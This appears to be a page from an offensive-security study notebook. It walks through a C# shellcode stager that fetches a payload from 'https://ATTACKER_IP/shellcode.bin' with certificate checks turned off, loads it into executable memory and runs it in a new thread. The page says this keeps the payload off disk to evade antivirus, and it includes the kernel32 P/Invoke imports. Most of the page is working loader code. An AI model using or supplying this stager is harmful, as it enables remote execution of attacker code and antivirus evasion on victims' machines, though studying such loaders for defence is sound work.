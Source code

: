 ```csharp

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin"; // change ATTACKER_IP part.
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

<u>High-level View</u>:

![](/assets/img/Pasted image 20230113112936.png)

	- After downloading the shellcode, its bytecode gets copied into this downloader's process' memory so it doesn't touch the disk, evading AV solutions.

	- Breakdown:
	- The first part of the code will import some WinAPI functions via "P/Invoke".
	- The functions we need are the following three from 'kernel32.dll':

![](/assets/img/Pasted image 20230113113155.png)

<u>Part of code that imports the APIs from the kernel32.dll library</u>:

```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```
